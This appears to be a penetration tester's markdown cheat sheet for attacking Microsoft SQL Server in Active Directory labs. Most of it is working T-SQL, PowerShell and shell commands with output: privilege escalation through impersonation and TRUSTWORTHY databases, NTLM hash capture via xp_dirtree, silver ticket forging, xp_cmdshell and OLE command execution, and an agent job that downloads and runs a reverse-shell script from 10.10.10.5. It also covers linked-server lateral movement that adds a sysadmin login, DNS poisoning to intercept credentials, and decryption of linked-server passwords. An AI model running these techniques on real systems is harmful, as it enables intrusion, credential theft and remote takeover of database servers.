

---
tags:
  - active-directory
  - crtp
  - cape
---

# 1433 - MSSQL


MSSQL offers strong lateral movement opportunities: domain users can be mapped to database roles, allowing privesc or RCE across systems.


## Authentication

There are two authentications modes in a MSSQL server:&#x20;

* **Windows Authentication**: This is **the default**, aka `integrated` security, in which the MSSQL server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.
* **Mixed**: Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.

The systemadmin account (`sa`) is the default administrator-level account in MSSQL. Note that this account is disabled by default when Windows Authentication is selected during installation.

## Schemas

In MSSQL server, each table belongs to a specific schema (e.g., `dbo`, `sales`, `hr`, etc.). If no schema is specified, `dbo` is used by default.


```sql
SELECT * from flags;
// ('42S02', "[42S02] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Invalid object name '#flags'. (208) (SQLExecDirectW)")

# Specify the database context explicitly
SELECT * from app.dbo.flags;
```


Below are the default MSSQL system schemas:

<table><thead><tr><th width="126" align="right">Schema</th><th>Description</th></tr></thead><tbody><tr><td align="right">master</td><td>Keeps the information for an instance of SQL Server</td></tr><tr><td align="right">msdb</td><td>Used by SQL Server Agent</td></tr><tr><td align="right">model</td><td>Template database copied for each new database</td></tr><tr><td align="right">resource</td><td>Read-only, keeps sys objects visible in every server database in sys schema</td></tr><tr><td align="right">tempdb</td><td>Keeps temporary objects for SQL queries</td></tr></tbody></table>

## Syntax

MSSQL uses its own SQL dialect called [Transact-SQL (T-SQL)](https://learn.microsoft.com/en-us/sql/t-sql/language-reference?view=sql-server-ver16) which includes procedural programming, local variables, support functions, etc.


When using a CLI tool, a statement must end with `;` followed by a `GO` on a separate line.



```sql
-- Version
SELECT @@version;

-- Current user
SELECT system_user;

-- Database users
SELECT name,sysadmin FROM syslogins;

-- Databases
SELECT name FROM sys.databases;

-- Use the target database
USE <database>;

-- Tables
SELECT * FROM <database>.information_schema.tables;
SELECT name FROM sys.tables;

-- Columns
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name = '<tableName>';

-- Privileges
SELECT name,sysadmin FROM syslogins;
```


## Tools

### Local

The [SQL Server Management Studio (SSMS)](https://learn.microsoft.com/en-us/ssms/install/install) can be used if we have local access to the server.

### CLI

#### Windows

Native Windows tool:

```powershell
sqlcmd -U <username> -P '<password>' -Q '<query1;query2;>' 
```

We can use the params `-y` (`SQLCMDMAXVARTYPEWIDTH`) and `-Y` (`SQLCMDMAXFIXEDTYPEWIDTH`) for better looking output (may affect performance):

```powershell
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

If we use `sqlcmd`, we will need to use `GO` after our query to execute the queries:

```sql
-- List existing databases
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

#### Linux

The Linux alternative to `sqlcmd` is `sqsh`. The `-h` flag disables headers & footers for a cleaner output:

```bash
# Connect to the MSSQL server
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

# Port specification
sqsh -S 10.129.203.7:15010 -U julio -P 'MyPassword!' -h
```

If we define the domain or hostname, it will use **Windows authentication**. If we don't, it will assume **SQL Authentication** and authenticate against the users created in the SQL server:

```bash
# Authenticating with a local account
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

Impacket's `mssqlclient` script can be also be used:

```bash
impacket-mssqlclient <domain>/<user>:<pass>@<target> -windows-auth
```

## Enumeration

### Logins & Users

There are two types of [security principals](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/principals-database-engine?view=sql-server-ver16):

* [`logins`](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/create-a-login?view=sql-server-ver16) (server-level): One login can be mapped to multiple users across multiple databases, but with a maximum of one user per database.
* [`users`](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/create-a-database-user?view=sql-server-ver16) (database-level): Identities that are mapped to logins and define permissions within a particular database. Each user exists within a single database and can only be associated with one login per database.


```sql
-- Logins and their server-level roles
SELECT r.name, r.type_desc, r.is_disabled, sl.sysadmin, sl.securityadmin, sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin FROM master.sys.server_principals r LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid WHERE r.type IN ('S','E','X','U','G');
```


### Databases


```sql
-- Databases, database owners, and trustworthiness
SELECT a.name AS 'database', b.name AS 'owner', is_trustworthy_on FROM sys.databases a JOIN sys.server_principals b ON a.owner_sid = b.sid;
```


### Database Server Roles

Once we are under a database context, we can enumerate the users and their respective [database-level roles](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/database-level-roles?view=sql-server-ver16) with the built-in stored procedure [`sp_helpuser`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-helpuser-transact-sql?view=sql-server-ver16). This will only return information available to our current user.


A [stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/stored-procedures/stored-procedures-database-engine?view=sql-server-ver16) is similar to a function in other programming languages: it accepts input arguments, contains programming statements, and returns a status value. MSSQL includes [numerous](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/system-stored-procedures-transact-sql?view=sql-server-ver16) built-in stored procedures. [Extended stored procedures](https://learn.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/how-extended-stored-procedures-work?view=sql-server-ver16) are a special type that execute native code from a DLL.



```sql
USE database01;
EXECUTE sp_helpuser;
```


## PrivEsc

### User Impersonation

MSSQL includes a special permission called `IMPERSONATE`, stored in [`sys.server_permissions`](https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-server-permissions-transact-sql?view=sql-server-ver16), which allows a login/user to assume the permissions of another login/user ([`EXECUTE AS`](https://learn.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql?view=sql-server-ver16)) until the session ends or the context is reset ([`REVERT`](https://learn.microsoft.com/en-us/sql/t-sql/statements/revert-transact-sql?view=sql-server-ver16)).


Run `EXECUTE AS LOGIN` within the master database (`USE master`), because all users, by default, have access to that database.

If a user you are trying to impersonate doesn't have access to the database you are connecting to it will result in an error.



```sql
-- Enumerate impersonation opportunities
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE';

-- Or
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
GO;

-- Impersonate SA
EXECUTE AS LOGIN = 'sa';

-- Switch back
REVERT;
```


### Trustworthy Databases

The [`TRUSTWORTHY`](https://learn.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property?view=sql-server-ver16) database property indicates whether the MSSQL server should trust the database and its contents within it. By default this is set to `0` (disabled), however if a user has the `sa` role can easily enable it.

If we compromise a user with the `db_owner` role who owns a `TRUSTWORTHY` database, we can leverage it to assign the `sa` role to arbitratry logins.


```sql
-- Connect to a trustworthy database
USE trustworthyDatabase01;

-- Enumerate the database users and their roles
SELECT b.name AS RoleName, c.name AS UserName FROM webshop.sys.database_role_members a JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;

-- Impersonate the user with the db_owner role
EXECUTE AS LOGIN = 'db_owner_user';

-- Confirm its role
SELECT IS_ROLEMEMBER('db_owner');

-- Create a stored procedure
CREATE PROCEDURE sp_privesc WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'db_owner_user', 'sysadmin';
GO;

-- Execute the stored procedure
EXECUTE sp_privesc;

-- Delete the stored procedure
DROP PROCEDURE sp_privesc;

-- Revert back to the db_owner_user context
REVERT;

-- Confirm SA permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```


### UNC Path Injection

This technique allows us to capture the `NetNTLMv2` hash of whichever user the MSSQL service is running as (by default `NT SERVICE\\mssqlserver`).

This can be done by using undocumented extended stored procedures which leverage the SMB protocol to list directories. There are a number of these ([**a**](https://www.sqlservercentral.com/articles/undocumented-extended-and-stored-procedures), [**b**](https://www.sqlteam.com/forums/topic.asp?TOPIC_ID=132601), [**c**](https://www.databasejournal.com/ms-sql/useful-undocumented-extended-stored-procedures/)) in MSSQL including:

* `xp_fileexist`: Checks whether a certain file exists
* `xp_dirtree`: Returns a directory tree based on a provided directory
* `xp_subdirs`: Returns a list of sub-directories of a provided directory

All the above stored procedures accept both DOS and [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) paths.&#x20;

By pointing one of these procedures to an attacker-controlled SMB server, the MSSQL server is tricked into authenticating with its NTLMv2 hash:


```bash
# Launch an SMB server
$ sudo responder -I tun0
$ sudo impacket-smbserver share ./ -smb2support
```


```sql
--- Check if the target file exists using a DOS path
EXEC xp_fileexist 'C:\\Windows\\System32\\drivers\\etc\\hosts';

-- Check if the target file exists on a remote server
EXEC xp_fileexist '\\\\10.10.10.5\\a';

-- Retrieve the tree based directory
EXEC xp_dirtree '\\\\10.10.10.5\\a';

-- Retrieve the sub-directory list
EXEC xp_subdirs '\\\\10.10.10.5\\a';

```


```bash
# Capture the hash
$ sudo responder -I tun0
...
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3...000

$ sudo impacket-smbserver share ./ -smb2support
...                     
[*] demouser::WIN7BOX:5e3...000
```


The NTLMv2 hash can be either cracked (`-m5600`) or [relayed](../../../../tl-dr/active-directory/attacks/ntlm-relay.md).

### Silver Ticket

If we have compromised the service account (e.g. `mssqlsvc`) we can escalate by forging a [Silver Ticket](../../../../tl-dr/active-directory/persistence/silver-ticket.md). We need to first get the Domain SID:

> The commands shown below are based on NetExec's [`mssql --rid-brute`](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/protocols/mssql.py#L433) flag.

```sql
-- Domain
SQL (MOLLYSEC\mssqlsvc  guest@master)> select default_domain();
------
SIGNED

-- Domain SID
SQL (MOLLYSEC\mssqlsvc  guest@master)> select SUSER_SID('mollysec\administrator');
-----------------------------------------------------------
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca4f4010000'
```

Next, we need to convert the raw SID to canonical ([`rawSid2Canon.py`](https://github.com/CSpanias/ctf-scripts/blob/main/rawSid2Canon.py)):

```bash
# Convert raw SID to canonical
$ python3
>>> from impacket.dcerpc.v5.dtypes import SID
>>> raw_sid = '0105000000000005150000005b7bb0f398aa2245ad4a1ca4f4010000'
>>> admin_sid = SID(bytes.fromhex(raw_sid))
>>> admin_sid.formatCanonical()
'S-1-5-21-4088429403-1159899800-2753317549-500'
```

The last piece needed is the RC4 hash of the service/machine account ([NTLM Password Hasher](https://www.browserling.com/tools/ntlm-hash)):

```bash
# Convert to NT hash
$ echo -n 'purPLE9795!@' | iconv -t utf16le | openssl md4 -provider legacy
MD4(stdin)= ef699384c3285c54128a3ee1ddb1a0cc
```

Now, we can forge a silver ticket:


```bash
# Forge a silver ticket
ticketer.py -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain mollysec.local -spn DoesNotMatter/dc01.mollysec.local -groups 512,513 -user-id 500 administrator

# Connect as admin
KRB5CCNAME=administrator.ccache mssqlclient.py -k dc01.mollysec.local
```


## RCE

### xp\_cmdshell


The Linux version of MSSQL does not support `xp_cmdshell`.


The [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) stored procedure is disabled by default. In order to use it, we first need to enable [advanced server configuration options](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/server-configuration-options-sql-server?view=sql-server-ver16). This spawns a `cmd.exe` process as a child of `sqlservr.exe` and operates synchronously, i.e., control returns only after the command completes. It can also be used via NetExec's [`mssql`](https://www.netexec.wiki/mssql-protocol/windows-command) module.

```sql
-- Enable advanced server configuration options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Enable the xp_cmdshell stored procedure
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute commands
EXEC xp_cmdshell 'whoami';

-- Disable the xp_cmdshell stored procedure
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

-- Disabled advanced server configuration options
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
```

### Server Agent Job

We can create a malicious [MSSQL Server Agent job](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-job?view=sql-server-ver16) (similar to scheduled tasks) using the [CmdExec](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-cmdexec-job-step?view=sql-server-ver16) (commands) and [PowerShell](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-powershell-script-job-step?view=sql-server-ver16) (PS scripts) subsystems along with the [sp\_start\_job](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-start-job-transact-sql?view=sql-server-ver16) stored procedure (starts the job immediately). Note that the MSSQL Server Agent service is disabled by default.


```sql
USE msdb;
GO

EXEC sp_add_job
    @job_name = N'Malicious Job';
GO

EXEC sp_add_jobstep
    @job_name = N'Malicious Job',
    @step_name = N'Execute PowerShell Script',
    @subsystem = N'PowerShell',
    @command = N'(New-Object Net.WebClient).DownloadString("<http://10.10.10.5/revshell.ps1>")|IEX;',
    @retry_attempts = 5,
    @retry_interval = 5;
GO

EXEC sp_add_jobserver
    @job_name = N'Malicious Job';
GO

EXEC sp_start_job
    @job_name = N'Malicious Job';
GO
```


The [sp\_delete\_job](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-delete-job-transact-sql?view=sql-server-ver16) stored procedure can be used for clean up.

### OLE Automation

We can also create a malicious [OLE Automation stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/ole-automation-stored-procedures-transact-sql?view=sql-server-ver16). Again, this is disabled by default. [OLE Automation](https://learn.microsoft.com/en-us/cpp/mfc/automation?view=msvc-170) is an inter-process communication mechanism which permits us to leverage other languages (e.g. `VBScript`) through `T-SQL` queries.


```sql
-- Enable advanced server configuration options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Enable the ole automation stored procedure
EXEC sp_configure 'ole automation procedures', 1;
RECONFIGURE;

DECLARE @objShell INT;
DECLARE @output varchar(8000);

-- Create a wscript.shell object
EXEC @output = sp_OACreate 'wscript.shell', @objShell Output;

-- Execute commands
EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\\Windows\\Tasks\\tmp.txt"';

-- Disable the ole automation stored procedure
EXEC sp_configure 'ole automation procedures', 0;
RECONFIGURE;

-- Disable advanced server configuration options
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
```


## Lateral Movement

### Linked Servers

MSSQL supports a configuration option called [**linked servers**](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine), which allows the database engine to run T-SQL queries across different SQL Server instances or even other database systems like Oracle.&#x20;

Admins may configure linked servers using credentials from the remote server, and if those credentials have `sa` privileges, it may be possible to execute commands on the remote SQL instance. Database links **work even across forest trusts**; they are direct server connections, so they have no boundaries.

<div align="left"><figure><figcaption></figcaption></figure></div>

In MSSQL, there is the concept of [**linked servers**](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16). Essentially, by linking server A to server B, you are able to execute database queries remotely on server B from server A. When a remote server is linked, authentication credentials are specified which could be a `low-level` or `sysadmin` login.&#x20;

There are [three ways](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-servers-openquery-openrowset-exec-at?view=sql-server-ver16) to remotely execute queries on linked servers:

* [`OPENQUERY`](https://learn.microsoft.com/en-us/sql/t-sql/functions/openquery-transact-sql?view=sql-server-ver16): Executes a query on a pre-defined linked server. Returns only one result set.
* [`EXECUTE AT`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql?view=sql-server-ver16): Executes a query on a pre-defined linked server. Returns multiple result sets.
* [`OPENROWSET`](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql?view=sql-server-ver16): Connects and executes a query on a remote server. Used as a more of an ad-hoc method of accessing remote servers, since it requires a connection string to be passed as an argument.

The above statements can be used to remotely execute `stored procedures` (e.g. `xp_cmdshell`), thus, they can be used for lateral movement. Before we can execute any remote queries, we need to identify which (if any) servers are linked to the one we have control of with the [sp\_linkedservers](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-linkedservers-transact-sql?view=sql-server-ver16) stored procedure:


Note the double single quotes, which is how you `"escape"` single quotes in `T-SQL`.



```sql
-- Enumerate linked servers
EXEC sp_linkedservers;
SELECT * FROM master...sysservers
SELECT * FROM openquery("dcorp-sql1",'select * from master..sysservers')
SELECT srvname, isremote FROM sysservers

-- Enumerate linked chains
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')

-- Execute a query on the linked server
SELECT * FROM OPENQUERY(SQL02, 'SELECT name, database_id, create_date FROM sys.databases');

-- Enumerate assigned roles
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');

-- Enable advanced configuration options
EXECUTE ('EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE; EXEC xp_cmdshell "whoami";') AT SQL02;

-- Enumerate the user and its privileges
EXECUTE('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [COMPATIBILITY\DB_CONFIG]

-- List the linked server's databases
EXECUTE('SELECT name FROM sys.databases;') AT [COMPATIBILITY\DB_CONFIG]
```


Sometimes linked servers are cyclical, e.g. `DB_CONFIG` is a linked server for `DB_PUBLIC` and vice versa:


```sql
-- Identify linked servers
> SELECT srvname, isremote FROM sysservers
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_PUBLIC          1
COMPATIBILITY\DB_CONFIG          0

-- Check if the linked server has other linked servers
> EXECUTE('SELECT srvname,isremote from sysservers;') AT [COMPATIBILITY\DB_CONFIG]
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_CONFIG          1
COMPATIBILITY\DB_PUBLIC          0
```


<figure><figcaption></figcaption></figure>

In this case, the account on the linked server might have elevated privileges on our current server:


```sql
-- Enumerate linked server user
> EXECUTE('SELECT current_user;') AT [COMPATIBILITY\DB_CONFIG]
-------------
internal_user

-- List privileges on the linked server
> EXECUTE('SELECT name,sysadmin from syslogins;') AT [COMPATIBILITY\DB_CONFIG]
name            sysadmin
-------------   --------
sa                     1
internal_user          0

-- List privileges of the linked account on the current server
> EXEC ('EXEC (''SELECT suser_name()'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
--
sa
```


Based on the above output, `internal_user` has `sa` rights on `DB_PUBLIC`. This can be leveraged for RCE directy using nested queries:


```sql
-- Execute command through nested queries
EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_configure ''''xp_cmdshell'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC xp_cmdshell ''''whoami'''''') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
...
output
---------------------------
nt service\mssql$db_public

-- Add a new admin user on DB_PUBLIC
EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG];

-- Execute commands leveraging the new admin account
EXEC('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```


### ADIDNS Poisoning



```bash
# List linked servers
$ mssqlclient.py mollysec.local/sql_svc:Pass123@10.10.10.5 -windows-auth
SQL (MOLLYSEC\sql_svc  guest@master)> enum_links
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE     
------------------   ----------------   -----------   ------------------
DC01\SQLEXPRESS      SQLNCLI            SQL Server    DC01\SQLEXPRESS
SQL01                SQLNCLI            SQL Server    SQL01      

# Connect to the linked server
SQL (MOLLYSEC\sql_svc  guest@master)> use_link [SQL01]
INFO(DC01\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL01" returned message "Login timeout expired".
INFO(DC01\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL01" returned message "A network-related or instance-specific error has occurred while establishing a connection to SQL Server. Server is not found or not accessible. Check if instance name is correct and if SQL Server is configured to allow remote connections. For more information see SQL Server Books Online.".
ERROR(MSOLEDBSQL): Line 0: Named Pipes Provider: Could not open a connection to SQL Server [64].      
```


asdsad


```bash
# Takeover the target DNS record
$ dnstool -u 'mollysec.local\sql_svc' -p Pass123 -a add -r SQL01.mollysec.local -d 10.10.10.2 10.10.10.5

# Confirm
$ nslookup sql01.mollysec.local 10.10.10.5

# Coerce authentication
SQL (MOLLYSEC\sql_svc  guest@master)> use_link [SQL01]
INFO(DC01\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL01" returned message "Communication link failure".
ERROR(MSOLEDBSQL): Line 0: TCP Provider: An existing connection was forcibly closed by the remote host.

# Intercept credentials
$ sudo responder -I tun0
...
[MSSQL] Cleartext Client   : 10.10.10.5
[MSSQL] Cleartext Hostname : SQL01 ()
[MSSQL] Cleartext Username : sql_admin
[MSSQL] Cleartext Password : S3cur3P4$$w0rd123!
```


### Linked Server Passwords

To decrypt linked server pasword, we need:

* A login with the `sa` role.
* Local Administrator permissions on the underlying server.


If LA is achieved, but `sa` not, see [here](https://www.netspi.com/blog/entryid/133/sql-server-local-authorization-bypass/).


The credentials used to authenticate against linked servers are stored inside the [`sys.syslnklgns`](https://learn.microsoft.com/en-us/sql/relational-databases/system-tables/system-base-tables?view=sql-server-ver16) table. The latter can be accessed via a [dedicated administrator connection (DAC)](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/diagnostic-connection-for-database-administrators?view=sql-server-ver16). DACs can only be created locally by default and are controlled by the [remote admin connections](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/remote-admin-connections-server-configuration-option?view=sql-server-ver16) configuration option.&#x20;

We can connect via DAC using SSMS as follows:

1. Close all open connections
2. Select `Database Engine Query` from the file menu
3. Enter the target linked server (e.g. `ADMIN:SQL02`) as the server name
4. Enter the authentication credentials of a login with the `sa` role.


```sql
-- Enumerate hashes used for linked server authentication
SELECT sysservers.srvname, syslnklgns.name, syslnklgns.pwdhash FROM master.sys.syslnklgns INNER JOIN master.sys.sysservers ON syslnklgns.srvid = sysservers.srvid WHERE LEN(pwdhash) > 0;
```


The credentials stored in `sys.syslnklgns` are symmetrically encrypted with the [Service Master Key](https://learn.microsoft.com/en-us/sql/relational-databases/security/encryption/sql-server-and-database-encryption-keys-database-engine?view=sql-server-ver16\&redirectedfrom=MSDN) (SMK), which is stored inside the [`sys.key_encryptions`](https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-key-encryptions-transact-sql?view=sql-server-ver16) table with a `key_id` value of `102` and is encrypted with [DPAPI](https://learn.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).&#x20;

The key with `thumbprint` set to `0x01` is encrypted in the context of `CurrentUser`, and the other is encrypted in the context of `LocalMachine`. Since we have control of a LA, we will target the latter one.

```sql
-- Enumerate master keys
SELECT * FROM sys.key_encryptions;
```

The following script will decrypt the SMK, which can be then used to decrypt the enumerated hash:


```powershell
# Clean the service master key
$encryptedData = "0xFFFFFFFF500100<SNIP>";
$encryptedData = $encryptedData.Substring(18); # Remove 0x and padding
$encryptedData = [byte[]] -split ($encryptedData -replace '..', '0x$& ');

# Retrieve the entropy bytes used when protecting the data
$entropy = (Get-ItemProperty -Path "HKLM:\\SOFTWARE\\Microsoft\\Microsoft SQL Server\\MSSQL16.MSSQLSERVER\\Security" -Name "Entropy").Entropy;

Add-Type -AssemblyName System.Security;
$SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine');
Write-Host (($SMK|ForEach-Object ToString X2) -join '');
```


Post [MSSQL Server 2012](https://learn.microsoft.com/en-us/sql/relational-databases/security/encryption/sql-server-and-database-encryption-keys-database-engine?view=sql-server-ver16), the SMK is AES encypted. Before that 3DES was used. The algorithm used can be enumerated by checking SMK's length:

* 16 bytes long → AES
* 8 bytes long → 3DES

In order to AES decrypt the SMK, we need:

* The `Key` (in this case the SMK)
* The `IV`, (the first 16 bytes (after padding) of the user's `pwdhash`)
* The `Ciphertext` (the remaining bytes of the user's `pwdhash`)

This can be done via a T-SQL query as follows:


```sql
SELECT name, SUBSTRING(pwdhash, 5, 16) AS 'IV', SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext' FROM sys.syslnklgns WHERE LEN(pwdhash) > 0;
```


With all the parts ready, we can now use the following [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt\(%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D\)Decode_text\('UTF-16LE%20\(1200\)'\)) to decrypt the user's password, and then decode the text from UTF-16LE. The output will be the user's plaintext password, prepended by some random padding bytes.&#x20;

<div align="left"><figure><figcaption></figcaption></figure></div>

The `Get-MSSQLLinkPasswords.psm1` automated the above process:


```powershell
Import-Module .\Get-MSSQLLinkPasswords.psm1
Get-MSSQLinkPassword
```


## Tools

### mssqlclient


Cannot be used to automatically decrypt linked server credentials.



```bash
# Connect to a MSSQL server instance
impacket-mssqlclient user01:Pass123@10.129.10.244

# Enumerate potential impersonation targets
enum_impersonate

# Impersonate SA
exec_as_login sa

# Coerce authentication
xp_dirtree \\\\10.10.10.5\\a

# Enable, use, and disable xp_cmdshell
enable_xp_cmdshell
xp_cmdshell whoami
disable_xp_cmdshell
```


The `sp_start_job` uses the `CmdExec` subsystem with the parameter `delete_level` set to `3`, which automatically cleans up the job after executing once:


```bash
# RCE via MSSQL server agent jobs
sp_start_job cmd.exe /c "whoami > C:\\Windows\\Tasks\\tmp.txt"
```


Executing commands through linked servers via `mssqlclient` does not require us to escape quotes or wrap queries; eveything is [handled automatically](https://github.com/fortra/impacket/blob/master/impacket/examples/mssqlshell.py#L131) using `EXECUTE AT`:


```bash
# Use a linked server
use_link SQL02

# Execute a query on the linked server
SQL02 (sa  dbo@master)> SELECT name, database_id, create_date FROM sys.databases;

# Return to local server
SQL02 (sa  dbo@master)> use_link localhost
```


### PowerUpSQL

> [https://github.com/NetSPI/PowerUpSQL/](https://github.com/NetSPI/PowerUpSQL/)


The `Invoke-SQLEscalatePriv` permanently assigns the `sa` role to the `login` we authenticated with.



```powershell
Import-Module .\\PowerUpSQL.psm1

# Audit the target MSSQL server instance
Invoke-SQLAudit -Username "user01" -Password "Pass123" -Instance "SQL01"

# Identify and exploit privilege escalation vectors to get SA
Invoke-SQLEscalatePriv -Username "user01" -Password "Pass123" -Instance "SQL01" -Verbose

# Connect to a MSSQL server and execute an inline query
Get-SQLQuery -Verbose -Instance "127.0.0.1,1433" -Username "user01" -Password "Pass123" -Query "SELECT SYSTEM_USER"

# Enumerate local MSSQL servers
Get-SQLInstanceLocal

# Enumerate MSSQL servers across networks
Get-SQLInstanceBroadcast

# Enumerate MSSQL servers within the domain (SPN scanning instead of port scanning)
Get-SQLInstanceDomain -Verbose

# Check access
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather server information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate the target MSSQL server instance
Get-SQLServerInfo -Username "user01" -Password "Pass123" -Instance "SQL01"

# RCE via xp_cmdshell
Invoke-SQLOSCmd -Username "user01" -Password "Pass123" -Instance "SQL01" -Command "whoami"

# RCE via MSSQL server agent job
Invoke-SQLOSCmdAgentJob -Username "user01" -Password "Pass123" -Instance "SQL01" -SubSystem "CmdExec" -Command "whoami"

# RCE via OLE Automation
Invoke-SQLOSCmdOle -Username "user01" -Password "Pass123" -Instance "SQL01" -Command "whoami"

# Enumerate linked servers
Get-SQLServerLink -Instance "SQL01" -Verbose

# Enumerate linked chains
Get-SqlServerLinkCrawl -Username "user01" -Password "Pass123" -Instance "SQL01" -Verbose

# Execute queries on all linked servers
$Out = Get-SQLServerLinkCrawl -Username "user01" -Password "Pass123" -Instance "SQL01" -Query "SELECT SYSTEM_USER";
$Out

